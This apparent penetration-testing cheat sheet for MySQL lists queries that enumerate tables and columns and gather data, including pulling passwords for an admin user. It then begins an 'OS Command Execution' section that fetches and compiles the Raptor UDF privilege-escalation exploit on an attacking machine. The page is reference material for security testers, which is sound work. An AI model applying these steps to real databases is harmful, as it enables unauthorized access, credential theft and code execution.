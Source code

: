 ## Table Enumeration

| Function | Command | Ref. |
| --- | --- | --- |
| Get Tables | `SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA NOT IN ('^^known tables array^^');`{:.language-sql .highlight}<br>eg. `SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA NOT IN ('mysql', 'performance_schema', 'information_schema');`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) |
|  | `SHOW TABLES;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/show-tables.html) |
|===|===|===|

## Column Enumeration

| Function | Command | Ref. |
| --- | --- | --- |
| Get Table Columns | `SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '^^table name^^';`{:.language-sql .highlight}<br>eg. `SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users';`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) |
|  | `SHOW COLUMNS FROM ^^table name^^;`{:.language-sql .highlight}<br>eg. `SHOW COLUMNS FROM users;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/show-columns.html) |
| Get Table Columns & Type | `SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '^^table name^^';`{:.language-sql .highlight}<br>eg. `SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users';`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) |
|===|===|===|

## Data Gathering

| Function | Command | Ref. |
| --- | --- | --- |
| Get Values | `SELECT ^^column name^^ FROM ^^table name^^;`{:.language-sql .highlight}<br>eg.`SELECT password FROM users;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/select.html) |
| Get conditional | `SELECT ^^column name^^ FROM ^^table name^^ WHERE ^^column name^^ = '^^value^^';`{:.language-sql .highlight}<br>eg.`SELECT password FROM users WHERE username = 'admin';`{:.language-sql .highlight}|
|===|===|===|

# OS Command Execution

## Raptor UDF

Code Execution via MySQL is available through the ability to load a User Defined Function (UDF). This is available at [exploit-db](https://www.exploit-db.com/exploits/1518) with the key steps outlined below.

Note: This section is to be completed in bash shell on attacking machine. Compilation arguments may vary dependant on target.
{: .notice--info}

### UDF Compilation

| Function | Command | Ref. |
|---|---|---|
| Download Source code | `searchsploit -m 1518`{:.language-bash .highlight} |
| Compile code | `gcc -g -c 1518.c`{:.language-bash .highlight}<br>`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc`{:.language-bash .highlight} |
|===|===|===|
